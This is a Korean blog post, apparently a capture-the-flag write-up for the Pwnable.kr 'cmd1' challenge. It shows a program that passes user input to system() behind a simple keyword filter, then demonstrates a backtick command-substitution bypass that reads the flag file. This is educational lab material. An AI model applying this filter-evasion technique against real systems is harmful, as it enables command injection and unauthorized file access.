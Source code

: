 ```yaml
---
layout: post
title: Pwnable.kr cmd1
categories: [Wargame]
tags: [Pwnable.kr]
comments: true
---
```


{% highlight c %}
cmd1@ubuntu:~$ cat cmd1.c 
#include <stdio.h>
#include <string.h>
 
int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
{% endhighlight %}

flag, sh, tmp라는 문자열을 필터링하는 문제이다. 하지만 이 문제는 system함수를 사용하므로 쉘의 기능을 이용하는걸 생각해 보아야 한다.

<code><b>`command`</b></code> 를 할 경우 command를 실행한 후 그 프로그램의 `stdout`으로 나오는 내용을 쉘에서 실행하게 된다.

간단한 예제로 보게되면 다음과 같은 결과를 낼 수 있다.

{% highlight bash %}
cmd1@ubuntu:~$ `/bin/cat`
ls
^D
cmd1  cmd1.c  flag
{% endhighlight %}

**``**으로 감싼 cat을 실행할 때, cat은 입력을 그대로 출력한다.

그로인해 `ls`를 입력했는데, 이 내용이 `cmd1@ubuntu:~$ ls` 와 같이 수행되게 된다. 이를 이용하여 문제를 해결해 보도록 하겠다.

{% highlight bash %}
cmd1@ubuntu:~$ ./cmd1 "\`/bin/cat\`"
/bin/cat /home/cmd1/flag
mommy now I get what PATH environment is for :)
{% endhighlight %}